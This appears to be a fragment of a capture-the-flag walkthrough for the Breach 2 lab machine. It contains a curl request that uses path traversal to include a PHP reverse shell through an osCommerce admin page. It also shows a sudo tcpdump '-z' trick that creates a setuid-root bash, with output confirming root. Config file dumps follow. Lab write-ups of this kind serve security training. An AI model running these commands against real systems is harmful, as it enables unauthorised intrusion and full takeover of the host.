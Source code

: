 	milton@breach2:/tmp$ curl http://192.168.110.151:8888/oscommerce/admin/includes/applications/services/pages/uninstall.php?module=../../../../../../../../../../../../tmp/php-reverse-shell


# Get root

	$ COMMAND='cp /bin/bash /tmp/bash && chmod 4755 /tmp/bash'
	TF=$(mktemp)
	echo "$COMMAND" > $TF
	chmod +x $TF
	sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z $TF -Z root$ $ $ $ 
	dropped privs to root
	tcpdump: listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
	Maximum file limit reached: 1
	$ ls /tmp/bash  
	/tmp/bash
	$ ls -al /tmp/bash
	-rwsr-xr-x 1 root root 1029624 Nov 30 10:14 /tmp/bash
	$ /tmp/bash -p
	id
	uid=1001(blumbergh) gid=1001(blumbergh) euid=0(root) groups=1001(blumbergh),1004(fin)


# Box's install

## sshd_config

	cat /etc/ssh/sshd_config
	...
	AllowUsers peter
	ForceCommand /usr/bin/startme
	AddressFamily inet

	cat /usr/bin/startme
	#!/bin/bash

	sudo /etc/init.d/apache2 start &> /dev/null

## milton's `.profile`
	
	milton@breach2:~$ cat .profile 
	# ~/.profile: executed by the command interpreter for login shells.
	# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
	# exists.
	# see /usr/share/doc/bash/examples/startup-files for examples.
	# the files are located in the bash-doc package.
